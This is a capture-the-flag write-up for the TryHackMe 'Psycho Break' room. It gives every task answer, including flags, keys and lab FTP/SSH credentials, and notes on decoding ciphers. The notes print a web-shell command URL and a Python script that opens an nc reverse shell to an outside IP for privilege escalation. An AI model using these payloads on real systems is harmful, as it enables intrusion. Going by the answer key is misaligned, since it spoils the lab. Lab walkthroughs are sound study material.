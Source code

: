 # TryHackMe Psycho Break

> Saikat Karmakar | 28 Apr:2021

---

## Task 1
1.	How many ports are open?
```
3
```
2.	What is the operating system that runs on the target machine?
```
Ubuntu
```

## Task 2
1.	Key to the looker room
```
532219a04ab7a02b56faafbec1a4c1ea
```
2.	Key to access the map
```
Grant_me_access_to_the_map_please
```
3.	The Keeper Key
```
48ee41458eb0b43bf82b986cecf3af01
```
4.	What is the filename of the text file (without the file extension)
```
You_made_it
```

## Task 3
1.	 Who is locked up in the cell?
```
Joseph
```
2.	There is something weird with the .wav file. What does it say?
```
SHOWME //morse deocde 
```
3.	What is the FTP Username
```
Joseph
```
4.	What is the FTP User Password
```
intotheterror445
```

## Task 4
1.	The key used by the program
```
kidman
```
2.	What do the crazy long numbers mean when there decrypted.
```
KIDMANSPASSWORDISSOSTRANGE
```

## Task 5
1.	user.txt
```
4C72A4EF8E6FED69C72B4D58431C4254
```
2.	root.txt
```
BA33BDF5B8A3BFC431322F7D13F3361E
```

---

-----------
***Notes***
-----------

- map key access
cipher : type `Atbash Cipher` https://www.boxentriq.com/
```
Tizmg_nv_zxxvhh_gl_gsv_nzk_kovzhv
```

- decrypt 
```
Grant_me_access_to_the_map_please
```

- location for the picture for keeper dir
```
St Augustine Lighthouse
```

```
http://10.10.153.90/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls%20..
```
- pass for the joseph image
```
SHOWME
```

- ftp cred 
```
joseph : intotheterror445
```
- t9 encrypted
```
55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3 444 7777 7777 666 7777 8 777 2 66 4 33
```

- ssh creds
```
kidman : KIDMANSPASSWORDISSOSTRANGE
```

- .readThis.txt //ROT47 
```

From Kidman:

The thing I am about to tell so is top secret. No one doesn't know about this. It's the Ruvik's eye. No one can hide away from it. But I can tell you one thing search for the string *the_eye_of_ruvik* . You got to help Sebastian defeat Ruvik ...

```

- edit the /var/.the_eye_of_ruvik.py
```py
#!/usr/bin/python3
import subprocess

subprocess.call("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.23.120 1234 >/tmp/f",shell=True)

```

